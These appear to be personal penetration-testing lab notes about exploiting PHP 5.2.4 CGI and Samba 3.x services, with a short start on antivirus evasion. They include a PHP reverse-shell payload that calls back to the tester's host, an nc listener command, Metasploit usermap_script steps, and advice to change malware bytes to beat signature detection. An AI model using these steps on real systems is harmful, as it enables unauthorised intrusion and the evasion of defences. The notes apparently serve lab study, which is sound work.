     - ==On Port 80 , The service is running is ⇒ PHP 5.2.4 and dav==
    
    > _==whenever u’r performing a penetration test that involves web applications , you need to analyze or explore all the components of web server like , web server technology , Operating System , web server programming languish , Database .==_
    
    - first if the web server technology is PHP , check first about common php dir like ⇒ `phpinfo.php` …etc.
    - `searchsploit php cgi` && `searchsploit -m 18836` ⇒ so here we downloads the python script to our dir
    - explore the script && `python3` `[18836.py](http://18836.py)` `<target ip> 80`
    
    > so when it executed u can see the phpinfo page return
    
    > Now we need to get a bin/shell ( revers shell ) , so we need to modify the pwn_code variable on the script .
    
    - open the script&&modify the pwn_code variable to⇒
    
    ```
    <?php $sock=fsockopen(”<our ip>” , 1234 );exec(”/bin/sh -i <&4 >&4  2>&4”);?>
    ```
    
    - execute the file && On other tab ⇒ `nc -nvlp <port> 1234` ⇒ to set up a listener to receive a reverse shell from the target
    

  

- Targeting SAMBA
    
    - ==On Port 445 , The service running is ⇒ netbios-ssn samba smbd 3.x - 4.x .==
    - `msfconsole` && `use auxiliary/scanner/smb/smb_version` && `set rhost <target ip>` && `run` ⇒ to identify the exactly version of samba
    
    > We identify that the version of samba is 3.2.20
    
    - `searchsploit samba 3.2.20`
    - `msfconsole` && `use exploit/multi/samba/usermap_script` && `set rhost <target ip>` && `run` ⇒ here we will get a cmd shell && `session -u 1` ⇒ to make it metepreter session
    

  

  

### ==**AV Evasion & Obfuscation**==

💡

AV Detection Methods

- ==Signature Based detection== ⇒ an AV signature is a unique sequence of bytes that uniquely identifies malware . _==So u should ensure to Obfuscated exploit or payload doesn’t match any knows signature in the AV database .==_

> when a new malware comes up the company , with it’s malware analysis , these eng download the malware and analysis it & generate a signature that uniquely identifies that malware , then the company included this signature on his database and all AV solutions added it then .

> ==We can bypass signature-based detection by modifying the malware byte sequence . therefore changing the signature .==
